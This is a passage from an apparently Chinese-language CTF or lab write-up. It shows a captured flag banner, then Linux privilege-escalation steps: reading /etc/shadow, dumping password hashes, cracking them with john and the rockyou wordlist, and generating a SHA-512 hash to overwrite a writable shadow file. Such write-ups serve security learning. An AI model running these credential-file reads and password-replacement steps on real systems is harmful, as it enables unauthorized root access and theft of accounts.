 ```bash
   _| |_ | \__. | | \__/ | | \__/ || \__. |
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'
                 [__|     [__|




Congratulations ! there is your flag : {lysys_sjwa_passW0rd}
```

> flag : {lysys_sjwa_passW0rd}

### linux提权

#### /etc/shadow可读

```bash
cat /etc/shadow
```

##### 查看/etc/shadow

```bash
root:$6$B9.UXcjg$brLv7w6QMynNKEyVL0gyUnSPB1x/wbXjR7tTOUv0woXAzKPuOVStwp2utuDmlUs4pOq.HBykUcFsnY/9mlPpx0
ted:$6$GP8Nd43M$WUIiEtNuWqGjmtPhrXBmsHYmq0jeelOC9eS0AShbgng26ioWhPu1.3vnQhVy/8.BOAop4li1bPTFvzQOLBMuT/
```

##### john破解hash

```bash
john 1.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
mkpasswd -m sha-512 newpassword
```

#### /etc/shadow文件可写

```bash
ls -l /etc/shadow 
```

##### 生成sha-512的hash

```bash
mkpasswd -m sha-512 newpassword
```



```bash
$6$p.wS9y3xl4i$Rh0DvYER94lLT/tnrdbO9l16Bn773.6peomyKGx0XZUreOX.BCZuJNwrr91h5HBOFmoGH7uJz.BfVnbdoKCE71
```

##### 替换/etc/shadow文件
